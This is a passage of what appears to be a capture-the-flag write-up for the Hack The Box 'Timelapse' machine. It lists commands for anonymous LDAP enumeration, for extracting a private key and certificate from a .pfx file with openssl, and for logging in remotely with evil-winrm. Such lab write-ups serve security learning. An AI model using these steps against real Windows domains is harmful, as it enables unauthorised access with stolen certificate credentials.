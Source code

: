 ### LAPS_Datasheet.docx
![[/assets/images/timelapse5.png]]
### LAPS_OperationsGuide.docx


## LAPS_TechnicalSpecifications.docx
![[/assets/images/timelapse6.png]]

## LDAP
```sh
ldapsearch -x -H ldap://10.10.11.152 -D '' -w '' -b "DC=timelapse,DC=htb" > tmp
```

```sh
# copy paste the output into tmp and show unique items (anomaly) 
cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr
```

![[/assets/images/timelapse9.png]]


# Initial Access
- Evil-winrm using the certificate and private key. 

## Attempts
### Extract Keys
```sh
# dump the key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc

# decrypt the key
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key

# dump the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```

![[/assets/images/timelapse15.png]]
### Evil-winrm
```sh
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem 

# this worked
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

![[/assets/images/timelapse16.png]]
